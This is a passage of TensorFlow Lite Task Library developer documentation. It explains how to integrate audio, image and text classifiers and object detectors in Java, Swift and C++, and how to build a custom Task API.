[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/audio/audio_classifier.h)
for more options to configure `AudioClassifier`.

## Model compatibility requirements

The `AudioClassifier` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md). See examples of creating
metadata for audio classifiers using the
[TensorFlow Lite Metadata Writer API](../../convert/metadata_writer_tutorial.ipynb#audio_classifiers).

The compatible audio classifier models should meet the following requirements:

*   Input audio tensor (kTfLiteFloat32)

    -   audio clip of size `[batch x samples]`.
    -   batch inference is not supported (`batch` is required to be 1).
    -   for multi-channel models, the channels need to be interleaved.

*   Output score tensor (kTfLiteFloat32)

    -   `[1 x N]` array with `N` represents the class number.
    -   optional (but recommended) label map(s) as AssociatedFile-s with type
        TENSOR_AXIS_LABELS, containing one label per line. The first such
        AssociatedFile (if any) is used to fill the `label` field (named as
        `class_name` in C++) of the results. The `display_name` field is filled
        from the AssociatedFile (if any) whose locale matches the
        `display_names_locale` field of the `AudioClassifierOptions` used at
        creation time ("en" by default, i.e. English). If none of these are
        available, only the `index` field of the results will be filled.
# Integrate image classifiers

Image classification is a common use of machine learning to identify what an
image represents. For example, we might want to know what type of animal appears
in a given picture. The task of predicting what an image represents is called
*image classification*. An image classifier is trained to recognize various
classes of images. For example, a model might be trained to recognize photos
representing three different types of animals: rabbits, hamsters, and dogs. See
the
[introduction of image classification](../../models/image_classification/overview.md)
for more information about image classifiers.

Use the Task Library `ImageClassifier` API to deploy your custom image
classifiers or pretrained ones into your mobile apps.

## Key features of the ImageClassifier API

*   Input image processing, including rotation, resizing, and color space
    conversion.

*   Region of interest of the input image.

*   Label map locale.

*   Score threshold to filter results.

*   Top-k classification results.

*   Label allowlist and denylist.

## Supported image classifier models

The following models are guaranteed to be compatible with the `ImageClassifier`
API.

*   Models created by
    [TensorFlow Lite Model Maker for Image Classfication](https://www.tensorflow.org/lite/tutorials/model_maker_image_classification).

*   The
    [pretrained image classification models from TensorFlow Lite Hosted Models](https://www.tensorflow.org/lite/guide/hosted_models#image_classification).

*   The
    [pretrained image classification models on TensorFlow Hub](https://tfhub.dev/tensorflow/collections/lite/task-library/image-classifier/1).

*   Models created by
    [AutoML Vision Edge Image Classification](https://cloud.google.com/vision/automl/docs/edge-quickstart).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

See the
[Image Classification reference app](https://github.com/tensorflow/examples/blob/master/lite/examples/image_classification/android/EXPLORE_THE_CODE.md)
for an example of how to use `ImageClassifier` in an Android app.

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Vision Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-vision:0.3.0'
    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

### Step 2: Using the model

```java
// Initialization
ImageClassifierOptions options =
    ImageClassifierOptions.builder()
        .setBaseOptions(BaseOptions.builder().useGpu().build())
        .setMaxResults(1)
        .build();
ImageClassifier imageClassifier =
    ImageClassifier.createFromFileAndOptions(
        context, modelFile, options);

// Run inference
List<Classifications> results = imageClassifier.classify(image);
```

See the
[source code and javadoc](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/vision/classifier/ImageClassifier.java)
for more options to configure `ImageClassifier`.

## Run inference in C++

```c++
// Initialization
ImageClassifierOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<ImageClassifier> image_classifier = ImageClassifier::CreateFromOptions(options).value();

// Run inference
const ClassificationResult result = image_classifier->Classify(*frame_buffer).value();
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/vision/image_classifier.h)
for more options to configure `ImageClassifier`.

## Example results

Here is an example of the classification results of a
[bird classifier](https://tfhub.dev/google/lite-model/aiy/vision/classifier/birds_V1/3).


```
Results:
  Rank #0:
   index       : 671
   score       : 0.91406
   class name  : /m/01bwb9
   display name: Passer domesticus
  Rank #1:
   index       : 670
   score       : 0.00391
   class name  : /m/01bwbt
   display name: Passer montanus
  Rank #2:
   index       : 495
   score       : 0.00391
   class name  : /m/0bwm6m
   display name: Passer italiae
```

Try out the simple
[CLI demo tool for ImageClassifier](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/examples/task/vision/desktop#image-classifier)
with your own model and test data.

## Model compatibility requirements

The `ImageClassifier` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md). See examples of creating
metadata for image classifiers using the
[TensorFlow Lite Metadata Writer API](../../convert/metadata_writer_tutorial.ipynb#image_classifiers).

The compatible image classifier models should meet the following requirements:

*   Input image tensor (kTfLiteUInt8/kTfLiteFloat32)

    -   image input of size `[batch x height x width x channels]`.
    -   batch inference is not supported (`batch` is required to be 1).
    -   only RGB inputs are supported (`channels` is required to be 3).
    -   if type is kTfLiteFloat32, NormalizationOptions are required to be
        attached to the metadata for input normalization.

*   Output score tensor (kTfLiteUInt8/kTfLiteFloat32)

    -   with `N` classes and either 2 or 4 dimensions, i.e. `[1 x N]` or `[1 x 1
        x 1 x N]`
    -   optional (but recommended) label map(s) as AssociatedFile-s with type
        TENSOR_AXIS_LABELS, containing one label per line. See the
        [example label file](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/python/tests/testdata/image_classifier/labels.txt).
        The first such AssociatedFile (if any) is used to fill the `label` field
        (named as `class_name` in C++) of the results. The `display_name` field
        is filled from the AssociatedFile (if any) whose locale matches the
        `display_names_locale` field of the `ImageClassifierOptions` used at
        creation time ("en" by default, i.e. English). If none of these are
        available, only the `index` field of the results will be filled.
# Integrate BERT natural language classifier

The Task Library `BertNLClassifier` API is very similar to the `NLClassifier`
that classifies input text into different categories, except that this API is
specially tailored for Bert related models that require Wordpiece and
Sentencepiece tokenizations outside the TFLite model.

## Key features of the BertNLClassifier API

*   Takes a single string as input, performs classification with the string and
    outputs <Label, Score> pairs as classification results.

*   Performs out-of-graph
    [Wordpiece](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/text/tokenizers/bert_tokenizer.h)
    or
    [Sentencepiece](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/text/tokenizers/sentencepiece_tokenizer.h)
    tokenizations on input text.

## Supported BertNLClassifier models

The following models are compatible with the `BertNLClassifier` API.

*   Bert Models created by
    [TensorFlow Lite Model Maker for text Classfication](https://www.tensorflow.org/lite/tutorials/model_maker_text_classification).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Text Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-text:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

### Step 2: Run inference using the API

```java
// Initialization
BertNLClassifierOptions options =
    BertNLClassifierOptions.builder()
        .setBaseOptions(BaseOptions.builder().setNumThreads(4).build())
        .build();
BertNLClassifier classifier =
    BertNLClassifier.createFromFileAndOptions(context, modelFile, options);

// Run inference
List<Category> results = classifier.classify(input);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/text/nlclassifier/BertNLClassifier.java)
for more details.

## Run inference in Swift

### Step 1: Import CocoaPods

Add the TensorFlowLiteTaskText pod in Podfile

```
target 'MySwiftAppWithTaskAPI' do
  use_frameworks!
  pod 'TensorFlowLiteTaskText', '~> 0.2.0'
end
```

### Step 2: Run inference using the API

```swift
// Initialization
let bertNLClassifier = TFLBertNLClassifier.bertNLClassifier(
      modelPath: bertModelPath)

// Run inference
let categories = bertNLClassifier.classify(text: input)
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/ios/task/text/nlclassifier/Sources/TFLBertNLClassifier.h)
for more details.

## Run inference in C++

```c++
// Initialization
BertNLClassifierOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<BertNLClassifier> classifier = BertNLClassifier::CreateFromOptions(options).value();

// Run inference
std::vector<core::Category> categories = classifier->Classify(kInput);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/text/nlclassifier/bert_nl_classifier.h)
for more details.

## Example results

Here is an example of the classification results of movie reviews using the
[MobileBert](https://www.tensorflow.org/lite/tutorials/model_maker_text_classification)
model from Model Maker.

Input: "it's a charming and often affecting journey"

Output:

```
category[0]: 'negative' : '0.00006'
category[1]: 'positive' : '0.99994'
```

Try out the simple
[CLI demo tool for BertNLClassifier](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/examples/task/text/desktop/README.md#bertnlclassifier)
with your own model and test data.

## Model compatibility requirements

The `BetNLClassifier` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md).

The Metadata should meet the following requirements:

*   input_process_units for Wordpiece/Sentencepiece Tokenizer

*   3 input tensors with names "ids", "mask" and "segment_ids" for the output of
    the tokenizer

*   1 output tensor of type float32, with a optionally attached label file. If a
    label file is attached, the file should be a plain text file with one label
    per line and the number of labels should match the number of categories as
    the model outputs.
# Integrate object detectors

Object detectors can identify which of a known set of objects might be present
and provide information about their positions within the given image or a video
stream. An object detector is trained to detect the presence and location of
multiple classes of objects. For example, a model might be trained with images
that contain various pieces of fruit, along with a _label_ that specifies the
class of fruit they represent (e.g. an apple, a banana, or a strawberry), and
data specifying where each object appears in the image. See the
[introduction of object detection](../../models/object_detection/overview.md)
for more information about object detectors.

Use the Task Library `ObjectDetector` API to deploy your custom object detectors
or pretrained ones into your mobile apps.

## Key features of the ObjectDetector API

*   Input image processing, including rotation, resizing, and color space
    conversion.

*   Label map locale.

*   Score threshold to filter results.

*   Top-k detection results.

*   Label allowlist and denylist.

## Supported object detector models

The following models are guaranteed to be compatible with the `ObjectDetector`
API.

*   The
    [pretrained object detection models on TensorFlow Hub](https://tfhub.dev/tensorflow/collections/lite/task-library/object-detector/1).

*   Models created by
    [AutoML Vision Edge Object Detection](https://cloud.google.com/vision/automl/object-detection/docs).

*   Models created by
    [TensorFlow Lite Model Maker for object detector](https://www.tensorflow.org/lite/guide/model_maker).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

See the
[Object Detection reference app](https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android/)
for an example of how to use `ObjectDetector` in an Android app.

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Vision Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-vision:0.3.0'
    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

### Step 2: Using the model

```java
// Initialization
ObjectDetectorOptions options =
    ObjectDetectorOptions.builder()
        .setBaseOptions(BaseOptions.builder().useGpu().build())
        .setMaxResults(1)
        .build();
ObjectDetector objectDetector =
    ObjectDetector.createFromFileAndOptions(
        context, modelFile, options);

// Run inference
List<Detection> results = objectDetector.detect(image);
```

See the
[source code and javadoc](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/vision/detector/ObjectDetector.java)
for more options to configure `ObjectDetector`.

## Run inference in C++

```c++
// Initialization
ObjectDetectorOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<ObjectDetector> object_detector = ObjectDetector::CreateFromOptions(options).value();

// Run inference
const DetectionResult result = object_detector->Detect(*frame_buffer).value();
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/vision/object_detector.h)
for more options to configure `ObjectDetector`.

## Example results

Here is an example of the detection results of
[ssd mobilenet v1](https://tfhub.dev/tensorflow/lite-model/ssd_mobilenet_v1/1/metadata/1)
from TensorFlow Hub.


```
Results:
 Detection #0 (red):
  Box: (x: 355, y: 133, w: 190, h: 206)
  Top-1 class:
   index       : 17
   score       : 0.73828
   class name  : dog
 Detection #1 (green):
  Box: (x: 103, y: 15, w: 138, h: 369)
  Top-1 class:
   index       : 17
   score       : 0.73047
   class name  : dog
```

Render the bounding boxes onto the input image:


Try out the simple
[CLI demo tool for ObjectDetector](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/examples/task/vision/desktop#object-detector)
with your own model and test data.

## Model compatibility requirements

The `ObjectDetector` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md). See examples of creating
metadata for object detectors using the
[TensorFlow Lite Metadata Writer API](../../convert/metadata_writer_tutorial.ipynb#object_detectors).

The compatible object detector models should meet the following requirements:

*   Input image tensor: (kTfLiteUInt8/kTfLiteFloat32)

    -   image input of size `[batch x height x width x channels]`.
    -   batch inference is not supported (`batch` is required to be 1).
    -   only RGB inputs are supported (`channels` is required to be 3).
    -   if type is kTfLiteFloat32, NormalizationOptions are required to be
        attached to the metadata for input normalization.

*   Output tensors must be the 4 outputs of a `DetectionPostProcess` op, i.e:

    -   Locations tensor (kTfLiteFloat32)
        -   tensor of size `[1 x num_results x 4]`, the inner array representing
            bounding boxes in the form [top, left, right, bottom].
        -   BoundingBoxProperties are required to be attached to the metadata
            and must specify `type=BOUNDARIES` and `coordinate_type=RATIO.
    -   Classes tensor (kTfLiteFloat32)

        -   tensor of size `[1 x num_results]`, each value representing the
            integer index of a class.
        -   optional (but recommended) label map(s) can be attached as
            AssociatedFile-s with type TENSOR_VALUE_LABELS, containing one label
            per line. See the
            [example label file](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/python/tests/testdata/object_detector/labelmap.txt).
            The first such AssociatedFile (if any) is used to fill the
            `class_name` field of the results. The `display_name` field is
            filled from the AssociatedFile (if any) whose locale matches the
            `display_names_locale` field of the `ObjectDetectorOptions` used at
            creation time ("en" by default, i.e. English). If none of these are
            available, only the `index` field of the results will be filled.

    -   Scores tensor (kTfLiteFloat32)

        -   tensor of size `[1 x num_results]`, each value representing the
            score of the detected object.

    -   Number of detection tensor (kTfLiteFloat32)

        -   integer num_results as a tensor of size `[1]`.
# Integrate Natural language classifier

The Task Library's `NLClassifier` API classifies input text into different
categories, and is a versatile and configurable API that can handle most text
classification models.

## Key features of the NLClassifier API

*   Takes a single string as input, performs classification with the string and
    outputs <Label, Score> pairs as classification results.

*   Optional Regex Tokenization available for input text.

*   Configurable to adapt different classification models.

## Supported NLClassifier models

The following models are guaranteed to be compatible with the `NLClassifier`
API.

*   The <a href="../../models/text_classification/overview.md">movie review
    sentiment classification</a> model.

*   Models with `average_word_vec` spec created by
    [TensorFlow Lite Model Maker for text Classfication](https://www.tensorflow.org/lite/tutorials/model_maker_text_classification).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

See the
[Text Classification reference app](https://github.com/tensorflow/examples/blob/master/lite/examples/text_classification/android/lib_task_api/src/main/java/org/tensorflow/lite/examples/textclassification/client/TextClassificationClient.java)
for an example of how to use `NLClassifier` in an Android app.

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Vision Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-text:0.3.0'
    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

### Step 2: Run inference using the API

```java
// Initialization, use NLClassifierOptions to configure input and output tensors
NLClassifierOptions options =
    NLClassifierOptions.builder()
        .setBaseOptions(BaseOptions.builder().useGpu().build())
        .setInputTensorName(INPUT_TENSOR_NAME)
        .setOutputScoreTensorName(OUTPUT_SCORE_TENSOR_NAME)
        .build();
NLClassifier classifier =
    NLClassifier.createFromFileAndOptions(context, modelFile, options);

// Run inference
List<Category> results = classifier.classify(input);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/text/nlclassifier/NLClassifier.java)
for more options to configure `NLClassifier`.

## Run inference in Swift

### Step 1: Import CocoaPods

Add the TensorFlowLiteTaskText pod in Podfile

```
target 'MySwiftAppWithTaskAPI' do
  use_frameworks!
  pod 'TensorFlowLiteTaskText', '~> 0.2.0'
end
```

### Step 2: Run inference using the API

```swift
// Initialization
var modelOptions:TFLNLClassifierOptions = TFLNLClassifierOptions()
modelOptions.inputTensorName = inputTensorName
modelOptions.outputScoreTensorName = outputScoreTensorName
let nlClassifier = TFLNLClassifier.nlClassifier(
      modelPath: modelPath,
      options: modelOptions)

// Run inference
let categories = nlClassifier.classify(text: input)
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/ios/task/text/nlclassifier/Sources/TFLNLClassifier.h)
for more details.

## Run inference in C++

```c++
// Initialization
NLClassifierOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<NLClassifier> classifier = NLClassifier::CreateFromOptions(options).value();

// Run inference
std::vector<core::Category> categories = classifier->Classify(kInput);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/text/nlclassifier/nl_classifier.h)
for more details.

## Example results

Here is an example of the classification results of the
[movie review model](https://www.tensorflow.org/lite/models/text_classification/overview).

Input: "What a waste of my time."

Output:

```
category[0]: 'Negative' : '0.81313'
category[1]: 'Positive' : '0.18687'
```

Try out the simple
[CLI demo tool for NLClassifier](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/examples/task/text/desktop/README.md#nlclassifier)
with your own model and test data.

## Model compatibility requirements

Depending on the use case, the `NLClassifier` API can load a TFLite model with
or without [TFLite Model Metadata](../../convert/metadata.md). See examples of
creating metadata for natural language classifiers using the
[TensorFlow Lite Metadata Writer API](../../convert/metadata_writer_tutorial.ipynb#nl_classifiers).

The compatible models should meet the following requirements:

*   Input tensor: (kTfLiteString/kTfLiteInt32)

    -   Input of the model should be either a kTfLiteString tensor raw input
        string or a kTfLiteInt32 tensor for regex tokenized indices of raw input
        string.
    -   If input type is kTfLiteString, no [Metadata](../../convert/metadata.md)
        is required for the model.
    -   If input type is kTfLiteInt32, a `RegexTokenizer` needs to be set up in
        the input tensor's
        [Metadata](https://www.tensorflow.org/lite/convert/metadata_writer_tutorial#natural_language_classifiers).

*   Output score tensor:
    (kTfLiteUInt8/kTfLiteInt8/kTfLiteInt16/kTfLiteFloat32/kTfLiteFloat64)

    -   Mandatory output tensor for the score of each category classified.

    -   If type is one of the Int types, dequantize it to double/float to
        corresponding platforms

    -   Can have an optional associated file in the output tensor's
        corresponding [Metadata](../../convert/metadata.md) for category labels,
        the file should be a plain text file with one label per line, and the
        number of labels should match the number of categories as the model
        outputs. See the
        [exmaple label file](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/python/tests/testdata/nl_classifier/labels.txt).

*   Output label tensor: (kTfLiteString/kTfLiteInt32)

    -   Optional output tensor for the label for each category, should be of the
        same length as the output score tensor. If this tensor is not present,
        the API uses score indices as classnames.

    -   Will be ignored if the associated label file is present in output score
        tensor's Metadata.
# Build you own Task API

<a href="overview.md">TensorFlow Lite Task Library</a> provides prebuilt
native/Android/iOS APIs on top of the same infrastructure that abstracts
TensorFlow. You can extend the Task API infrastructure to build customized APIs
if your model is not supported by existing Task libraries.

## Overview

Task API infrastructure has a two-layer structure: the bottom C++ layer
encapsulating the native TFLite runtime and the top Java/ObjC layer that
communicates with the C++ layer through JNI or native wrapper.

Implementing all the TensorFlow logic in only C++ minimizes cost, maximizes
inference performance and simplifies the overall workflow across platforms.

To create a Task class, extend the
[BaseTaskApi](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/base_task_api.h)
to provide conversion logic between TFLite model interface and Task API
interface, then use the Java/ObjC utilities to create corresponding APIs. With
all TensorFlow details hidden, you can deploy the TFLite model in your apps
without any machine learning knowledge.

TensorFlow Lite provides some prebuilt APIs for most popular
<a href="overview.md#supported_tasks">Vision and NLP tasks</a>. You can build
your own APIs for other tasks using the Task API infrastructure.

<div align="center">
<div align="center">Figure 1. prebuilt Task APIs
<div align="left">

## Build your own API with Task API infra

### C++ API

All TFLite details are implemented in the native API. Create an API object by
using one of the factory functions and get model results by calling functions
defined in the interface.

#### Sample usage

Here is an example using the C++
[`BertQuestionAnswerer`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/text/qa/bert_question_answerer.h)
for
[MobileBert](https://tfhub.dev/tensorflow/lite-model/mobilebert/1/default/1).

```cpp
  char kBertModelPath[] = "path/to/model.tflite";
  // Create the API from a model file
  std::unique_ptr<BertQuestionAnswerer> question_answerer =
      BertQuestionAnswerer::CreateFromFile(kBertModelPath);

  char kContext[] = ...; // context of a question to be answered
  char kQuestion[] = ...; // question to be answered
  // ask a question
  std::vector<QaAnswer> answers = question_answerer.Answer(kContext, kQuestion);
  // answers[0].text is the best answer
```

#### Building the API

<div align="center">
<div align="center">Figure 2. Native Task API
<div align="left">

To build an API object,you must provide the following information by extending
[`BaseTaskApi`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/base_task_api.h)

*   **Determine the API I/O** - Your API should expose similar input/output
    across different platforms. e.g. `BertQuestionAnswerer` takes two strings
    `(std::string& context, std::string& question)` as input and outputs a
    vector of possible answer and probabilities as `std::vector<QaAnswer>`. This
    is done by specifying the corresponding types in `BaseTaskApi`'s
    [template parameter](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/base_task_api.h?q="template <class OutputType, class... InputTypes>").
    With the template parameters specified, the
    [`BaseTaskApi::Infer`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/base_task_api.h?q="Infer\(InputTypes... args\)")
    function will have the correct input/output types. This function can be
    directly called by API clients, but it is a good practice to wrap it inside
    a model-specific function, in this case, `BertQuestionAnswerer::Answer`.

    ```cpp
    class BertQuestionAnswerer : public BaseTaskApi<
                                  std::vector<QaAnswer>, // OutputType
                                  const std::string&, const std::string& // InputTypes
                                  > {
      // Model specific function delegating calls to BaseTaskApi::Infer
      std::vector<QaAnswer> Answer(const std::string& context, const std::string& question) {
        return Infer(context, question).value();
      }
    }
    ```

*   **Provide conversion logic between API I/O and input/output tensor of the
    model** - With input and output types specified, the subclasses also need to
    implement the typed functions
    [`BaseTaskApi::Preprocess`](https://github.com/tensorflow/tflite-support/blob/5cea306040c40b06d6e0ed4e5baf6c307db7bd00/tensorflow_lite_support/cc/task/core/base_task_api.h#L74)
    and
    [`BaseTaskApi::Postprocess`](https://github.com/tensorflow/tflite-support/blob/5cea306040c40b06d6e0ed4e5baf6c307db7bd00/tensorflow_lite_support/cc/task/core/base_task_api.h#L80).
    The two functions provide
    [inputs](https://github.com/tensorflow/tensorflow/blob/1b84e5af78f85b8d3c4687b7dee65b78113f81cc/tensorflow/lite/schema/schema.fbs#L1007)
    and
    [outputs](https://github.com/tensorflow/tensorflow/blob/1b84e5af78f85b8d3c4687b7dee65b78113f81cc/tensorflow/lite/schema/schema.fbs#L1008)
    from the TFLite `FlatBuffer`. The subclass is responsible for assigning
    values from the API I/O to I/O tensors. See the complete implementation
    example in
    [`BertQuestionAnswerer`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/text/qa/bert_question_answerer.cc).

    ```cpp
    class BertQuestionAnswerer : public BaseTaskApi<
                                  std::vector<QaAnswer>, // OutputType
                                  const std::string&, const std::string& // InputTypes
                                  > {
      // Convert API input into tensors
      absl::Status BertQuestionAnswerer::Preprocess(
        const std::vector<TfLiteTensor*>& input_tensors, // input tensors of the model
        const std::string& context, const std::string& query // InputType of the API
      ) {
        // Perform tokenization on input strings
        ...
        // Populate IDs, Masks and SegmentIDs to corresponding input tensors
        PopulateTensor(input_ids, input_tensors[0]);
        PopulateTensor(input_mask, input_tensors[1]);
        PopulateTensor(segment_ids, input_tensors[2]);
        return absl::OkStatus();
      }

      // Convert output tensors into API output
      StatusOr<std::vector<QaAnswer>> // OutputType
      BertQuestionAnswerer::Postprocess(
        const std::vector<const TfLiteTensor*>& output_tensors, // output tensors of the model
      ) {
        // Get start/end logits of prediction result from output tensors
        std::vector<float> end_logits;
        std::vector<float> start_logits;
        // output_tensors[0]: end_logits FLOAT[1, 384]
        PopulateVector(output_tensors[0], &end_logits);
        // output_tensors[1]: start_logits FLOAT[1, 384]
        PopulateVector(output_tensors[1], &start_logits);
        ...
        std::vector<QaAnswer::Pos> orig_results;
        // Look up the indices from vocabulary file and build results
        ...
        return orig_results;
      }
    }
    ```

*   **Create factory functions of the API** - A model file and a
    [`OpResolver`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/core/api/op_resolver.h)
    are needed to initialize the
    [`tflite::Interpreter`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/interpreter.h).
    [`TaskAPIFactory`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/task_api_factory.h)
    provides utility functions to create BaseTaskApi instances.

    Note: By default
    [`TaskAPIFactory`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/core/task_api_factory.h)
    provides a
    [`BuiltInOpResolver`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/kernels/register.h).
    If your model needs customized ops or a subset of built-in ops, you can
    register them by creating a
    [`MutableOpResolver`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/mutable_op_resolver.h).

    You must also provide any files associated with the model. e.g,
    `BertQuestionAnswerer` can also have an additional file for its tokenizer's
    vocabulary.

    ```cpp
    class BertQuestionAnswerer : public BaseTaskApi<
                                  std::vector<QaAnswer>, // OutputType
                                  const std::string&, const std::string& // InputTypes
                                  > {
      // Factory function to create the API instance
      StatusOr<std::unique_ptr<QuestionAnswerer>>
      BertQuestionAnswerer::CreateBertQuestionAnswerer(
          const std::string& path_to_model, // model to passed to TaskApiFactory
          const std::string& path_to_vocab  // additional model specific files
      ) {
        // Creates an API object by calling one of the utils from TaskAPIFactory
        std::unique_ptr<BertQuestionAnswerer> api_to_init;
        ASSIGN_OR_RETURN(
            api_to_init,
            core::TaskAPIFactory::CreateFromFile<BertQuestionAnswerer>(
                path_to_model,
                absl::make_unique<tflite::ops::builtin::BuiltinOpResolver>(),
                kNumLiteThreads));

        // Perform additional model specific initializations
        // In this case building a vocabulary vector from the vocab file.
        api_to_init->InitializeVocab(path_to_vocab);
        return api_to_init;
      }
    }
    ```

### Android API

Create Android APIs by defining Java/Kotlin interface and delegating the logic
to the C++ layer through JNI. Android API requires native API to be built first.

#### Sample usage

Here is an example using Java
[`BertQuestionAnswerer`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/text/qa/BertQuestionAnswerer.java)
for
[MobileBert](https://tfhub.dev/tensorflow/lite-model/mobilebert/1/default/1).

```java
  String BERT_MODEL_FILE = "path/to/model.tflite";
  String VOCAB_FILE = "path/to/vocab.txt";
  // Create the API from a model file and vocabulary file
    BertQuestionAnswerer bertQuestionAnswerer =
        BertQuestionAnswerer.createBertQuestionAnswerer(
            ApplicationProvider.getApplicationContext(), BERT_MODEL_FILE, VOCAB_FILE);

  String CONTEXT = ...; // context of a question to be answered
  String QUESTION = ...; // question to be answered
  // ask a question
  List<QaAnswer> answers = bertQuestionAnswerer.answer(CONTEXT, QUESTION);
  // answers.get(0).text is the best answer
```

#### Building the API

<div align="center">
<div align="center">Figure 3. Android Task API
<div align="left">

Similar to Native APIs, to build an API object, the client needs to provide the
following information by extending
[`BaseTaskApi`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/core/BaseTaskApi.java),
which provides JNI handlings for all Java Task APIs.

*   __Determine the API I/O__ - This usually mirrors the native interfaces. e.g
    `BertQuestionAnswerer` takes `(String context, String question)` as input
    and outputs `List<QaAnswer>`. The implementation calls a private native
    function with similar signature, except it has an additional parameter `long
    nativeHandle`, which is the pointer returned from C++.

    ```java
    class BertQuestionAnswerer extends BaseTaskApi {
      public List<QaAnswer> answer(String context, String question) {
        return answerNative(getNativeHandle(), context, question);
      }

      private static native List<QaAnswer> answerNative(
                                            long nativeHandle, // C++ pointer
